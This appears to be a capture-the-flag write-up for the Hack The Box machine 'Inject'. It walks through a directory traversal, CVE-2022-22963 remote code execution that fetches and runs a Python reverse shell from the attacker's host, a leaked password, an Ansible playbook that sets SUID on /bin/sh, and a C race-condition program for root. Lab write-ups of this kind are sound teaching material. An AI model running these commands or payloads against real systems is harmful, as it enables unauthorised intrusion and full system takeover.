

Inject is an easy Linux machine created by [**rajHere**](https://app.hackthebox.com/users/396413) on [**Hack The Box**](https://app.hackthebox.com/machines/Inject) that involves Exploiting a **Directory Traversal** bug to locate and read local files as _frank_. We use this vulnerability to enumerate software versions involved in the web server, where we find an outdated Spring Framework installation that is vulnerable to a critical bug tracked as **CVE-2022-22963**. This bug is then used to gain code execution as _frank_, and find credentials for _phil_ in frank's home directory. The user _phil_ is permitted to write **Ansible** playbooks to a certain directory that is used by _root_ in scheduled **CRON jobs**. With a special playbook, we are then able to execute code as root and fetch the system flag

## Initial Recon

Let's set up our environment and run a TCP port scan with [this custom nmap wrapper](https://github.com/bryanmcnulty/ctf-scripts/blob/main/recon/active/ctf-portscan.sh).

```bash
# bryan@red_team (bash)
rhost="10.10.11.204" # Target IP address
lhost="10.10.14.4" # Your VPN IP address
echo rhost=$rhost >> .env
echo lhost=$lhost >> .env
. ./.env && ctfscan $rhost
```
{:.nolineno}

The open ports reported in the scan include:

| Transport | Port | Service | Product     | Version                 |
|:----------|:-----|:--------|:------------|:------------------------|
| TCP       | 22   | SSH     | OpenSSH     | 8.2p1 Ubuntu 4ubuntu0.5 |
| TCP       | 8080 | HTTP    | Nagios NSCA |                         |

## Web

We'll begin by exploring the HTTP server on port **8080** since web services are often vulnerable.
Let's also route our requests through our local [BurpSuite](https://portswigger.net/burp) proxy or just use BurpSuite's built-in browser.


The home page introduces a few features including the ability to upload files.
Let's check out that page since file uploads are a slippery slope when it comes to security.


We'll try uploading a file in our browser session while we capture the request with BurpSuite.

```http
POST /upload HTTP/1.1
Host: 10.10.11.204:8080
Content-Length: 220
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryAPgIHu4nfmqDyyE2
User-Agent: BurpSuite
Accept: */*

------WebKitFormBoundaryAPgIHu4nfmqDyyE2
Content-Disposition: form-data; name="file"; filename="demo.txt"
Content-Type: text/plain

This is a standard UTF-8 text file...

------WebKitFormBoundaryAPgIHu4nfmqDyyE2--

```
{:.nolineno}


The response indicates that the form exclusively accepts image files, so we'll try uploading an image.


The upload is successful plus we get to view the image dynamically at the `/show_image`{:.filepath} endpoint.


### File Disclosure

It appears that the image file is loaded dynamically from the filesystem using the _img_ parameter.
Let's see if we can read any files outside of our working directory like `/etc/passwd`{:.filepath}.

```bash
# bryan@red_team (bash)
curl "http://$rhost:8080/show_image?img=../../../../../../etc/passwd"
```
{:.nolineno}
>
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

We can seemingly use this endpoint to read local files using a generic directory traversal payload.
Messing around a bit more, we find out that we can list directories as well.

```bash
# bryan@red_team (bash)
curl "http://$rhost:8080/show_image?img=../../../../../../"
```
{:.nolineno}
>
```
bin
boot
dev
...
```

### Remote Code Execution

Let's find the application source so we can look for credentials or additional attack surface.

```bash
# bryan@red_team (bash)
inject_fetch() { curl -sm 1 "http://$rhost:8080/show_image?img="$@; }
inject_fetch ../ # read parent directory
inject_fetch ../java # keep looking ...
```
{:.nolineno}

We eventually find what appears to be the project root for the current Java application at `../../../`{:.filepath}.
Within that directory, we find the Maven project configuration at `pom.xml`{:.filepath} containing a couple of notable software fingerprints.

- org.springframework.boot **2.6.5**
- spring-cloud-function-web **3.2.2**

If we search for vulnerabilities with either fingerprint, we see references to a couple of different CVEs.
We confirm that **Spring Cloud Function** version **3.2.2** is vulnerable to **CVE-2022-22963** by Checking the [CVEDetails description](https://www.cvedetails.com/cve/CVE-2022-22963/).

> In Spring Cloud Function versions 3.1.6, 3.2.2 and older unsupported versions, when using routing functionality it is possible for a user to provide a specially crafted SpEL as a routing-expression that may result in remote code execution and access to local resources.

There is already a number of proof-of-concept exploits out there, but I decided to create one anyways [here](https://gist.github.com/bryanmcnulty/65a13e981670d25382c174c679e9dc1f).
We'll use this program to spawn a reverse shell that answers to a [PwnCat](https://pypi.org/project/pwncat-cs/) listener.

```bash
# bryan@red_team (bash)
pwncat-cs -c <(echo "listen -m linux -H $lhost 443")
```
{:.nolineno}

```bash
# bryan@red_team (bash)
inject_fetch ../../../../../../usr/bin | grep '^python' # python3 is installed
tmp=$(mktemp -d)
cat << EOF > $tmp/index.html
import os,pty,socket
s=socket.socket()
s.connect(("$lhost",443))
[os.dup2(s.fileno(),f)for(f)in(0,1,2)]
pty.spawn("bash")
EOF
python3 -m http.server --bind $lhost --directory $tmp 80 &
python3 CVE-2022-22963.py "http://$rhost:8080" "curl $lhost -o/tmp/_d"
python3 CVE-2022-22963.py "http://$rhost:8080" "python3 /tmp/_d"
```
{:.nolineno}

We should then get a callback to our listener on port 443 as the user _frank_.

## Privilege Escalation

### Frank

We begin exploring the filesystem starting with frank's home directory

```bash
# frank@inject (bash)
find ~ -type f
```
{:.nolineno}
>
```
/home/frank/.bashrc
/home/frank/.m2/settings.xml
...
```

There's a Maven user configuration file at `~/.m2/settings.xml`{:.filepath} that contains credentials for the user _phil_.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
```
{:file="/home/frank/.m2/settings.xml"}

### Phil

We'll login as _phil_ with `su` using the password **DocPhillovestoInject123**, grab the user flag, then run some simple enumeration commands.

```bash
# phil@inject (bash)
sudo -l # no luck :(
id # staff group?
```
{:.nolineno}

With the `id` command, find that _phil_ has membership in a custom group called **staff**.
Let's see if this group has any special permissions on the filesystem.

```bash
# phil@inject (bash)
find / -group staff -ls 2>/dev/null
```
{:.nolineno}

The most notable entry is the `/opt/automation/tasks`{:.nolineno} directory which grants write privileges to the staff group.
Within that folder there is a read-only configuration file (playbook) for an IT automation framework known as **Ansible**.
Since this has to do with automation, we suspect that there is a CRON job or something similar that utilizes this folder at certain intervals.
We'll use [PSpy](https://github.com/DominicBreuker/pspy) to monitor processes and find scheduled tasks.

```bash
# bryan@red_team (PwnCat phil@inject)
upload pspy /home/phil
```
{:.nolineno}
```bash
# phil@inject (bash)
chmod +x pspy && ./pspy | tee -a pspy.log
```

After a couple minutes, we find a series of privileged processes running every two minutes that interact with `/opt/automation/tasks`{:.filepath} in a potentially unsafe manner.

1.  `/usr/local/bin/ansible-parallel /opt/automation/tasks/*.yml`
    - `/usr/bin/ansible-playbook /opt/automation/tasks/playbook_1.yml`
1.  - `sleep 10`
    - `/usr/bin/rm -rf /opt/automation/tasks/*`
    - `/usr/bin/cp /root/playbook_1.yml /opt/automation/tasks/`

The first process in question evaluates any path satisfying `/opt/automation/tasks/*.yml`{:.filepath} as an Ansible playbook.
We should be able to get our playbook evaluated since `/opt/automation/tasks`{:.filepath} is writable.

#### Ansible

It turns out, executing commands in an Ansible playbook is possible and [well documented](https://docs.ansible.com/ansible/latest/collections/ansible/builtin/shell_module.html), meaning we should be able to escalate to root this way. We'll just add a task that will grant the SUID bit to `/bin/sh`{:.filepath}, making sure that we clean up after ourselves to not ruin the box for others.

```yaml
- hosts: localhost
  tasks:
  - name: pwn
    ansible.builtin.shell: "chmod +s /bin/sh"
```
{:file="pwnbook.yml"}

```bash
# phil@inject (bash)
cat << EOF > /opt/automation/tasks/pwnbook.yml
- hosts: localhost
  tasks:
  - name: pwn
    ansible.builtin.shell: chmod +s /bin/sh
EOF
```
{:.nolineno}

After a couple minutes we verify that `/bin/sh`{:.filepath} or `/bin/dash`{:.filepath} have SUID, then spawn a root shell.

```bash
# phil@inject (bash)
/bin/sh -pi
```
{:.nolineno}

#### Alternative Solution (Bonus)

Let's pretend that the magical wildcard used to execute our own playbook didn't exist.
Even without this, we can solve this machine by abusing a race condition in a CRON job.
See, every two minutes _root_ evaluates the playbook at `/opt/automation/tasks/playbook_1.yml`{:.filepath} alongside the following command:

```bash
sleep 10 &&
  rm -rf /opt/automation/tasks/* &&
  cp /root/playbook_1.yml /opt/automation/tasks/
```
{:.nolineno}


Looking at the timing of the calls from our PSpy log, we notice that the original playbook is deleted then replaced within under a second.
It turns out, we can actually use the time between these actions to entirely prevent the playbook from being replaced.
We do this by creating a **directory** at `/opt/automation/tasks/playbook_1.yml`{:.filepath} while the path is unclaimed.
When the task attempts to populate that path, it runs into an error since a file cannot overwrite a directory no matter what the permissions are.
Once the `cp` command fails, we'll delete the directory and replace it with our malicious playbook, which is then evaluated after a couple minutes.

We just need to create a speedy compiled program that is efficient enough to time this correctly.
The following Program should work nicely:

```c
// gcc -static ./privesc2.c -o privesc2
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/stat.h>
#include <sys/types.h>

#define PLAYBOOK_PATH "/opt/automation/tasks/playbook_1.yml"
#define PLAYBOOK "- hosts: localhost\n"\
                 "  tasks:\n"\
                 "  - name: pwn\n"\
                 "    ansible.builtin.shell: chmod +s /bin/sh\n"

void replace() {
  struct stat sb;

  while(1) {
    if (stat(PLAYBOOK_PATH, &sb) != 0) {
      if (mkdir(PLAYBOOK_PATH, 0700) == 0) {
        puts("Swapped with directory!");
        return;
      }
      puts("Fail!");
      sleep(110);
    }
    usleep(100);
  }
}

void plant() {
  FILE *file;
  if (file = fopen(PLAYBOOK_PATH, "w")) {
    fprintf(file, "%s", PLAYBOOK);
    fclose(file);
  }
}

int main(int argc, char* argv[]) {
  replace();
  sleep(10);
  system("rm -rf /opt/automation/tasks/playbook_1.yml");
  plant();
  puts("Done!");
  return 0;
}
```
{:file="privesc2.c"}

Running the compiled executable on the target should replace the file with our malicious playbook after a couple minutes.
We then wait another couple minutes and run `/bin/sh -pi` to spawn a root shell.
